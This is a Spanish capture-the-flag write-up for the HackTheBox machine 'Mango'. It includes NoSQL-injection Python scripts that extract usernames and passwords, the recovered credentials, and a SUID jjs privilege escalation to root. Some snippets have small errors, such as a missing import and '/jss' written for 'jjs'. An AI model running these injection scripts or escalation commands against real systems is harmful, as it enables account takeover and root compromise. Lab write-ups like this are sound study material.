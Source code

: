 # 10.10.10.162 - Mango
----------------------

Puertos abiertos: 22(ssh), 80(http), 443(https)

```console
└─$ openssl s_client -connect 10.10.10.162:443
staging-order.mango.htb, emailAddress = admin@mango.htb
└─$ whatweb http://10.10.10.162
[403 Forbidden] Apache[2.4.29], HTTPServer[Ubuntu Linux]
└─$ whatweb https://10.10.10.162
[200 OK] Apache[2.4.29], Bootstrap, Title[Mango | Search Base]
```

La web solo tiene un enlace funcional a /analytics.php, donde funciona solo al poner la ip (no mango.htb)
Hay una tabla de datos que podemos descargar al darle a "save". 


En el panel de login se manda
```/POST a http://staging-order.mango.htb/ username=test&password=test&login=login PHPSESSID:"4h9rnhfsteketion8qoom89evt"```

Al ser un panel de login podemos hacer cuatro cosas:
- Inyeccion SQL con payloads del tipo ```' or 1=1-- -``` ```' or sleep(5)-- -``` (...OR por AND y ' por "")
- Inyeccion Type Jugling (PHP) -> "password=true"
- Fuzzing de posibles contraseñas
- NoSQlInyection -> contraseña[$ne]=test "La contraseña no es "test".

Como estamos ante una web que maneja bases de datos (por lo que vimos en analytics) sera SQL o no SQL. La manera
de probar el mirando el content lenght (El de la respuesta mala es 4022, es decir redireccion a la misma ruta)
Todos los payloads sql fallan pero no NoSQL

```python
#!/usr/bin/python3

import requests
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
data = {"username":"admin","password[$ne]":"test","login":"login"}
req2 = requests.post(url, data=data, headers=headers)
print(len(req2.text))
```

Aun así entrar nos devuelve este mensaje 
"Todavía se están plantando (los mangos). Perdon por la inconveniencia, pero acabamos de emepezar la granja"

Hay inyecciones NoSQL especiales que nos pueden ayudar a obtener información:

```python
import requests, string

caracteres = string.ascii_lowercase + "_"
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
nombre = ""
for character in caracteres:
    data = {"username[$regex]":"^" + character + ".*","password[$ne]":"test","login":"login"}
    req2 = requests.post(url, data=data, headers=headers)
    if len(req2.text) < 4022:
        print(character)
```
Conseguimos "a" y "m"

```python3
nombre = "a"
for i in range(20):
    for character in caracteres:
        data = {"username[$regex]":"^" + nombre + character + ".*","password[$ne]":"test","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            nombre += character
            print(nombre)
```
Sale "admin", para el segundo (el que empieza por "m"), pongo ```nombre = "m"```
No hay mas nombres por la "a", pero si los hubier se pondría ```caracteres = string.ascii_lowercase.strip("d")```
para sacar la segunda letra (y que no fuera "d").

```python
caracteres = string.printable
sess = requests.session()
url = "http://staging-order.mango.htb/"
req1 = sess.get(url)
headers = {'PHPSESSID': req1.cookies['PHPSESSID'], 'Content-Type':'application/x-www-form-urlencoded',}
contraseña = ""
while True:
    for character in caracteres:
        data = {"username":"admin","password[$regex]":"^" + contraseña + re.escape(character) + ".*","login":"login"}
        req2 = requests.post(url, data=data, headers=headers)
        if len(req2.text) < 4022:
            contraseña += character
			print(contraseña)
```
Creds -> admin:t9KcS3>!0B#2, mango:h3mXK8RhU~f{]f5H




- SUIDS: /usr/bin/run-mailcap, /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
- PUERTOS: 127.0.0.1:27017 

En [Gtfo-bins](https://gtfobins.github.io/gtfobins) hay entradas para ambos binarios, pero solo jjs tiene SUID.
El comando es este (ej con "whoami") y se ejecutará en contenxto privilegiado.
```echo "Java.type('java.lang.Runtime').getRuntime().exec('whoami').waitFor()" | /jss```
El asunto esque la shell que nos proponen ```/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)```
se queda atascada, asi que la solución sería el comando de hacer SUID a la bash ```chmod u+s /bin/bash```
```console
admin@mango:/home/mango$ echo "Java.type('java.lang.Runtime').getRuntime().exec('chmod u+s /bin/bash').waitFor()" | /jss
admin@mango:/home/mango$ bash -p
bash-4.4# whoami
root
```
Aunque tenemos que leer la flag rapidamente porque no se porque hay ocasiones en que me bajan los pribilegios.

jjs sirve para invocar el motor "Nashorn", pero dicen que tanto el comando como el motor lo eliminarán en futuras
versiones de java. Java tira de motores y entornos virtuales para funcionar, es un lenguaje un tanto extraño.









